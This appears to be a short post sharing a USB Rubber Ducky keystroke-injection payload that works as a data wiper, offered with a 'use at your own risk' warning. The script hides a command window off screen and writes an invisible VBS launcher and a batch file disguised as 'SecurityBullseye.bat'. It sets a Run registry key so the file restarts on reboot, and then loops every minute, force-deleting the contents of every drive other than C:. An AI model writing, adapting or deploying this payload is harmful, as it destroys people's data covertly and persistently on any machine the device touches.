Created by overwraith, use at your own risk. This script will erase attached drives on your computer. Made in response to batch wiper malware. 
```
REM By overwraith
REM EraseFlashDrives.txt
REM PURPOSE: to delete the contents of attached drives. 
GUI R
STRING cmd /Q /D /T:7F /F:OFF /V:OFF /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
REM THE DIRECTORY YOU WANT TO HIDE THE SCRIPT IN
STRING cd %TEMP%
ENTER
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER
REM Delete batch file if already exists
STRING erase /Q SecurityBullseye.bat
ENTER
REM Make the batch file
REM SLIGHT THROWBACK TO VIDEO GAME BIOSHOCK I/II
STRING copy con SecurityBullseye.bat
ENTER
REM REGISTRY KEY RESTARTS THE SCRIPT ON REBOOT
STRING REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Persistence /t REG_SZ /d "wscript.exe %TEMP%\invis.vbs %TEMP%\SecurityBullseye.bat" /f
ENTER
STRING :while1
ENTER
REM C:\ IS USUALLY THE DRIVE THE OS IS INSTALLED ON, SO OMIT. 
STRING for %%a in (A B D E F G H I J K L M N O P Q R S T U V W X Y Z) do (
ENTER
STRING IF EXIST %%a:\ erase /Q /S /F "%%a:\*.*"
ENTER
STRING IF EXIST %%a:\ rmdir /Q /S "%%a:\*"
ENTER
STRING )
ENTER
STRING timeout /t 60
ENTER
STRING goto :while1
ENTER
CONTROL Z
ENTER
REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs SecurityBullseye.bat
ENTER
STRING EXIT
ENTER
```